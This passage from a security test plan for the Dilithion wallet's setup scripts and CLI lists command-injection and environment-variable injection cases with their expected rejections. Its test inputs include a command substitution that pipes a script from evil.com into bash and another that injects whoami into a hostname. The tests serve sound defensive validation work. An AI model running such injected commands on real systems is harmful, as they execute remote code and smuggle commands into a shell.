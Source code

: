 ```batch
Expected Result:
❌ whoami should NOT execute
✓ Error message: "ERROR: Invalid Input"
✓ Only accepts: 1-128 or "auto"

# Test 1.3: Out of range numeric
When prompted for cores, enter: 999999999

Expected Result:
❌ Should be rejected
✓ Error: "Please enter: 1-128, 'auto', or press ENTER"
```

**Linux/macOS (setup-and-start.sh):**

```bash
# Test 1.4: Bash command injection
./setup-and-start.sh
When prompted, enter: 4; echo "hacked"; #

Expected Result:
❌ "hacked" should NOT print
✓ Error message: "ERROR: Invalid Input"
✓ Script exits

# Test 1.5: Command substitution
When prompted, enter: $(curl http://evil.com/script.sh | bash)

Expected Result:
❌ curl should NOT execute
✓ Error message displayed
✓ Script exits safely
```

**Status:** ✅ VALIDATED (Automated tests confirm validation logic exists)

---

### Security Test 2: Environment Variable Injection

**Linux/macOS:**

```bash
# Test 2.1: Malicious RPC_HOST
export DILITHION_RPC_HOST="evil$(whoami).com"
./dilithion-wallet balance

Expected Result:
✓ Warning: "DILITHION_RPC_HOST contains suspicious characters"
✓ Falls back to: localhost
✓ Command substitution does NOT execute

# Test 2.2: Invalid RPC_PORT
export DILITHION_RPC_PORT="abc123"
./dilithion-wallet balance

Expected Result:
✓ Error: "DILITHION_RPC_PORT must be numeric"
✓ Falls back to: 18332

# Test 2.3: Out of range port
export DILITHION_RPC_PORT="999999"
./dilithion-wallet balance

Expected Result:
✓ Error: "must be between 1-65535"
```